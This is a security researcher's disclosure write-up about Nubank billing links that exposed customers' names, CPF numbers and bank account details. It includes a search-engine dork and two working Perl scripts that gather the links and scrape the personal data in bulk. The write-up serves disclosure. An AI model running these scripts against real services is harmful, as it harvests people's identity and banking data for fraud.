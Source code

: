 ```yaml
---
layout: content
title: 'A little case about scraping personal data exposure in the web'
description: 'During casual usage and routine security testing of applications installed on a personal device, a feature in the Nubank app was discovered that allows users to generate and share "billing links." While useful, the implementation of this feature presented a data exposure risk. A proof of concept (PoC) demonstrated that it was possible to collect personal data (CPF, full name, account number, and agency) of over 100 customers through automated scraping techniques.'
og_image: https://heitorgouvea.me/images/publications/nubank-scraping/google-dorks.png
---
```


Table of contents:
- [Summary](#summary)
- [Description](#description)
- [Prooft of Concept](#proof-of-concept)
- [Impact](#impact)
- [Conclusion](#conclusion)
- [References](#references)

---

### Summary

During routine analysis and informal security testing of mobile applications, a feature in the Nubank app was identified that enables users to generate and share "billing links" with others. While the feature serves its intended purpose, its design raised concerns about potential misuse and data exposure. A proof of concept was developed to assess the extent of this exposure, revealing that sensitive personal information — including CPF, full name, bank account number, and agency — could be extracted from publicly accessible billing URLs. Over 100 customer records were mapped using basic automation in a matter of minutes.

*Disclaimer:* The responsible company was informed of all the details contained in this publication as quickly as possible. It  responded ethically and transparently, demonstrating appropriate attention and commitment. No systems were breached or compromised during testing. Additionaly, the company implemented some of the necessary changes to reduce the risk of misuse as described in this publication. Further recommendations to mitigate the vulnerabilities were provided, though the company did not deem them necessary to implement.

This publication is also available in: [Portuguese](/2020/06/23/Scraping-dados-pessoais-na-web) and [Spanish](/2020/06/23/caso-de-scraping-de-datos-personales).

---

### Description

The Nubank mobile application includes a feature called “Cobrar” (or “Charge”), which allows users to generate a payment request. Once an amount is optionally entered and the request is confirmed, a QR Code is created along with a corresponding URL. This URL can be shared directly through messaging platforms such as WhatsApp:

![](/images/publications/nubank-scraping/creating-a-link.png)

![](/images/publications/nubank-scraping/whatsapp-shared-link.png)

The QR Code encodes the same information as the URL, which, when accessed via a browser, reveals a summary of the payment request. Crucially, the page also displays personally identifiable information (PII) of the user who generated the link — including their full name, CPF (Brazilian national ID number), bank agency, and account number — without requiring authentication or any form of access control:

![](/images/publications/nubank-scraping/personal-infos.png)

These URLs are entirely user-generated and shared at the user’s discretion. However, the lack of protection over the content meant they were accessible to anyone with the link. [1]

Further investigation revealed that many of these links had been indexed by search engines. A simple crafted query (Google Dork) [2] — targeting URLs with the `/pagar/` pattern on Nubank’s domain — returned numerous publicly accessible billing pages:

```text
site:nubank.com.br inurl:/pagar/ -blog
```

![](/images/publications/nubank-scraping/google-dorks.png)

Beyond search engine indexing, several of these URLs were also being actively shared on public platforms such as Twitter, where users appeared to use the feature for receiving donations or conducting informal transactions:

![](/images/publications/nubank-scraping/twitter-links.png)

These findings indicated a broader exposure surface — not limited to search engines, but also extending to social media and other public channels where sensitive financial metadata was being inadvertently disclosed.

---

### Proof of Concept

To evaluate the real-world impact of this exposure, a proof of concept (PoC) was developed to demonstrate how sensitive information could be collected at scale from publicly accessible URLs.

The first step involved identifying as many valid billing URLs as possible. A simple script was written to query a search engine programmatically using a crafted dork [3], extract result links, and filter for relevant matches. The script iterates through multiple result pages, collecting unique URLs pointing to Nubank's payment endpoints:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use WWW::Mechanize;
use Mojo::Util qw(url_escape);

sub main {
    my $dork = $ARGV[0];

    if ($dork) {
        $dork = url_escape($dork);

        my %seen  = ();
        my $mech = WWW::Mechanize -> new();

        $mech -> ssl_opts (verify_hostname => 0);

        for my $page (0 .. 10) {
            my $url = "https://wwww.bing.com/search?q=${dork}&first=${page}0";

            $mech -> get($url);

            my @links = $mech -> links();

            foreach my $link (@links) {
                $url = $link -> url();

                next if $seen{$url}++;

                if ($url =~ m/^https?/ && $url !~ m/bing|live|microsoft|msn/) {
                    print $url, "\n";
                }
            }
        }
    }
}

exit main();
```

Using this approach, 100 valid billing URLs were collected. This limit was set intentionally to contain the scope of the demonstration:

![](/images/publications/nubank-scraping/file-with-the-urls.png)

A second script was then used to access each URL, parse the HTML response, and extract the personal information displayed on the page. This included full name, CPF, bank, account number, and agency:

```perl
#!/usr/bin/env perl

use 5.030;
use strict;
use warnings;
use Mojo::DOM;
use Mojo::UserAgent;

binmode(STDOUT, ":encoding(UTF-8)");

sub main {
    my $urls_file = $ARGV[0];

    if ($urls_file) {
        my $userAgent = Mojo::UserAgent -> new (
            agent => "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)"
        );
        
        open my $urls_filehandle, "<", $urls_file or die $!;

        while (<$urls_filehandle>) {
            chomp ($_);
            
            my $request = $userAgent -> get($_) -> result();

            if ($request -> is_success()) {
                my $account = $request -> dom -> find("tr td") -> map("text") -> join(",");

                $account =~ s/Nome,//
                && $account =~ s/CPF,//
                && $account =~ s/Banco,//
                && $account =~ s/Tipo da conta,//
                && $account =~ s/Agência,//
                && $account =~ s/Conta,//
                && $account =~ s/Agência Métodos,//;

                say $account;
            }
        }

        close ($urls_filehandle);
    }
}

exit main();
```

The output confirmed that sensitive user data could be harvested in bulk from these links:

![](/images/publications/nubank-scraping/collect-with-names-cpfs.png)

In total, full names, CPF numbers, bank account numbers, and branch details for over 100 individuals were collected using basic automation within minutes. This result demonstrates how a seemingly helpful feature become a significant privacy concern when left unprotected and indexable by search engines.

---

### Impact

The ability to access sensitive user data via public URLs — without authentication or authorization — presents a serious security risk. These exposed details could be exploited for social engineering or spear phishing campaigns, significantly increasing the vulnerability of affected individuals.

---

### Conclusion

This analysis demonstrates how attackers could automate the discovery of Nubank billing URLs and extract personal data at scale. While this proof of concept relied on search engines, similar outcomes could be achieved by monitoring social media and other public forums. Such exposure puts users at increased risk of privacy violations and targeted fraud.

---

### References

- [1] [https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
- [2] [https://en.wikipedia.org/wiki/Google_hacking](https://en.wikipedia.org/wiki/Google_hacking)
- [3] [https://en.wikipedia.org/wiki/Web_scraping](https://en.wikipedia.org/wiki/Web_scraping)
